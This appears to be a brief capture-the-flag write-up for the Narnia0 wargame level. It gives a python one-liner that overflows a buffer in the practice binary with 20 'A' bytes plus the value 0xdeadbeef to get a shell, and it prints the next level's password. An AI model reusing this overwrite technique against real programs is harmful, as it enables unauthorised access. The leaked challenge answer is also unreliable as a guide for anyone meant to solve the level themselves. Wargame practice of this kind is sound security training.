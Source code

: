 # Narnia0

`cd /etc/narnia`

`$ (python -c 'print("A"*20+ "\xef\xbe\xad\xde")';cat;) | ./narnia0`


Password for narnia 1: efeidiedae
